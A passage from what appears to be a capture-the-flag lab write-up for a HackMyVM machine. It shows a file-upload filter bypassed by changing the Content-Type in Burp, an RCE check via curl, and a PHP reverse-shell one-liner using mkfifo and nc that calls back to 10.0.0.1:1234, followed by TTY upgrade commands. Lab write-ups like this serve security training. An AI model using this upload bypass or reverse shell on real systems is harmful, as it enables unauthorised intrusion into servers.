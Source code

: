 ![The file must be an image](hmv-principle-the-file-must-be-an-image.png)
*The file must be an image*

Let's open `burp` and try to dodge the restrictions.
We configure burp as our proxy and intercept the requests.
We will modify the upload request, and we will change the `Content-Type` from `application/x-php` to `image/jpeg`:

![Content-Type: application/x-php](hmv-principle-content-type-application-x-php.png)
*Content-Type: application/x-php*

![Content-Type: image/jpeg](hmv-principle-content-type-image-jpeg.png)
*Content-Type: image/jpeg*

Once our RCE (Remote Code Execution) test is uploaded we can see that we can perform a RCE:

```
$ curl "http://hellfire.t4l0s.hmv/archivos/rcetest.php" 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Foothold

We have to take advantage of the RCE to convert it in a remote shell.
First we need to start a netcat listener on our host:

```
$ nc -lvnp 1234
```

And, now, we will upload a new php file, but, this time, we will upload a bash one-liner reverse shell:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f"); ?>
```

Once our file is uploaded we got shell!

We will upgrade our tty:

```
$ script /dev/null -c bash
Ctrl+Z
$ stty raw -echo; fg
$ reset
$ export TERM=xterm
$ export SHELL=bash
```

```
$ whoami
www-data
```

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
